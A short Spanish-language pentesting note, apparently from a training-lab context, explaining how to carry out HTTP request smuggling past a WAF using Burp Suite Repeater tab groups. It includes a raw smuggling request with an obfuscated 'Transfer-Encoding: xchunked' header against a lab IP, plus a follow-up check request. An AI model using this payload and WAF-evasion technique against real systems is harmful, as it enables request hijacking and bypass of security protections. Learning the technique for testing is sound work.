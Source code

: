 Puede haber casos que la pagina vulnerable a **HTTP Request Smuggling** tenga una proteccion WAF. En esos casos podemos intentar realizar el ataque con las siguientes consideraciones.

### BurpSuite Repeater Tab Group

En la pestaña de repeater podemos crear un grupo de pestañas con diferentes peticiones y las podemos mandar secuencialmente por el mismo canal TCP, esto ayuda a evadir el WAF.

Tenemos las siguientes 2 peticiones que pestañas diferentes:

**_PESTAÑA 1_**

Esta peticion es la que realiza el ataque:

```http
POST / HTTP/1.1
Host: 104.248.174.109:32256
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: xchunked

5
HELLO
0
```

**_PESTAÑA 2_**

Esta peticion es laque comprueba:

```http
GET / HTTP/1.1
Host: 104.248.174.109:32256
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

ahora en el repeater damos click derecho en cualquier peticion y damos la siguienet opcion:

![[Pasted image 20230516151030.png]]

damos un nombre a l grupo y seleccionamos las pestañas:

![[Pasted image 20230516151110.png]]

ahora antes de enviar seleccionamos lo siguiente:

![[Pasted image 20230516151152.png]]

esto enviara a traves del mismo canal TCP (Misma conexion)
